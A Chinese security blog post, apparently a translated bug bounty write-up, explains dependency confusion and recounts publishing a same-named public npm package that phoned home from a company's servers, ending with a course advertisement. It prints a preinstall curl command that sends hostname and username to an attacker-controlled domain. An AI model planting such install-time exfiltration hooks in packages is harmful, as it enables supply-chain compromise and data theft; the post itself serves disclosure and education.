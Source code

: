 #  2,500 美元漏洞报告-通过未认领的 Node 包进行远程代码执行 (RCE)   
原创 枇杷哥  黑伞安全   2025-02-27 09:15  
  
# 什么是依赖混淆？  
  
依赖混淆是一种软件供应链漏洞，当公司的内部软件包被错误地从公共存储库（例如 npm）而不是其私有注册表下载时，就会发生这种情况。如果软件包管理器（如 npm、pip 或其他）默认从公共源提取，并且那里存在同名的软件包，就会发生这种情况。  
  
在依赖项混淆攻击中，攻击者可以创建与公司内部软件包同名的恶意软件包，并将其发布到公共注册表。如果公司的系统从公共注册表中解析该软件包，它们可能会下载并执行攻击者的代码，从而导致远程代码执行 (RCE) 等安全风险。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGr41NSib8aDw25jtiaWpy6XDVoMBJGMYDeuoSUPiab4ZiarnGwWxEVCcMt4LV621qvM6PF7iaEZedY0FpA/640?wx_fmt=png&from=appmsg "")  
## 如何识别漏洞  
  
在一次挖洞中，我检查了公司的一个 JavaScript 文件，发现它引用了存储在Node.js 包的  
/node_modules/@confidential-package-name  
中。这表明该公司正在使用内部 npm 包。我检查了这个内部包是否已在公共 npm 注册表上发布，结果发现它在 npm 上无人认领。  
  
这种无人认领的状态表明任何人可以创建同名的包，并可能导致依赖混淆问题，因为欺骗公司系统从公共 npm 注册表而不是其内部源下载和执行代码。  
## 漏洞如何被利用  
  
为了确认风险，我使用与内部包相同的名称创建了一个恶意的 npm 包@confidential-package-name。然后，我将这个包发布到公共 npm 注册表，并嵌入一个旨在安装时自动执行的预安装脚本。  
  
预安装脚本简单但有效：  
```
curl — data-urlencode “info=$(hostname && whoami)” http://<攻击者控制的域>.oast.fun
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGr41NSib8aDw25jtiaWpy6XDVfIB7JbP7vwJ7P2S1tOtb14HicORaUibJYr9GoB7KDEibAMXW2LCu4Pe7w/640?wx_fmt=png&from=appmsg "")  
  
该脚本会将安装包的服务器的主机名和用户信息发送到我控制的域。一旦包在 npm 上线，我就会耐心等待，在几小时到几天内，我开始收到来自公司生产和非生产环境的多个请求，确认他们的系统正在下载并执行恶意软件包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGr41NSib8aDw25jtiaWpy6XDVIMXKSLjjqoK10XbWIwibsmT7NuE9CeF2faYJ1IvlDibYtqShZqhL2D2g/640?wx_fmt=png&from=appmsg "")  
  
请求包括主机名和用户名等详细信息.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGr41NSib8aDw25jtiaWpy6XDVAERSYVngOM5rgZK3a6kLqQlgBPGyucFWghib2UToZnXFsJ2iaLF3hYQQ/640?wx_fmt=png&from=appmsg "")  
## 我秦始皇 打钱  
  
在我控制的主机上收到超过 150 次 HTTP 和 DNS 查询后，我开始分析 IP 地址和从中检索的数据。我通过过滤掉已知的爬虫程序来整理列表，然后继续对所有剩余 IP 进行 WHOIS 查询，以检查是否有任何 IP 与公司的 IP 范围或其服务提供商相匹配。  
  
分析完成后，我编写了报告。报告在同一天被分类（非常感谢 Raven_Bugcrowd 的快速分类！），一周之内，报告就被接受了。我获得了 2,500 美元的赏金——这是该特定程序的最高奖励。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGr41NSib8aDw25jtiaWpy6XDVTFNUlgOOKYq1k9cuZH3H0VakoOylxU9SB008snLOPOIibHX4FuqNjMA/640?wx_fmt=png&from=appmsg "")  
  
  
后台回复"枇杷哥的枇杷熟了吗" 免费领取 大模型   
ATT&CK  
电子版  
  
   
  
如果你是一个长期主义者，欢迎加入我的知识星球,我们一起冲，一起学。2025 年春节推出内部云安全课程，后续涨价 159 元。每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGpcY6gfCIxenk0q7P2HTb6zldNBBUcicPWcznpg5HxMcbvvWF5aAFj3sPJC7yYI5PUibHib7Vo9xWCicw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
